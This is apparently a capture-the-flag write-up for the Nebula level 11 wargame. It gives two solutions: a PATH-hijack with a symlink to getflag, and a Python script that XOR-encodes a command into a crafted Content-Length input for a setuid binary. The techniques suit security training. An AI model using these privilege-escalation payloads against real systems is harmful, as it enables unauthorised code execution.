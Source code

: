 .. _nebula11:

.. role:: bash(code)
	  :language: bash

.. role:: python(code)
	  :language: python

Nebula 11
=========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level11/

Important Note
----
   
This level has two posible ways to be exploited but, it have a bug on the sticky bit, this bug can be seen by strace

**Reported bug:** https://security.stackexchange.com/questions/137204/nebula-level11-setuid-is-not-working

Solution
--------
* First way:

.. code-block:: bash

   export PATH=/tmp/:$PATH
   ln -s /bin/getflag d
   echo -ne "Content-Length: 1\nd" | /home/flag11/flag11

.. note::
   Execute it until an "e" comes up, if this letter shows then you can execute

* Second way:

.. code-block:: python

   string = "/bin/getflag\x00"
   key = 0

   enc_string = ""

   for char in string:
       enc_char = ord(char) ^ key & 0xff
       enc_string += chr(enc_char)
       key = key - ord(char) & 0xff

   print "Content-Length: 1024\n" + enc_string + "\x00" * (1024 - len(enc_string))
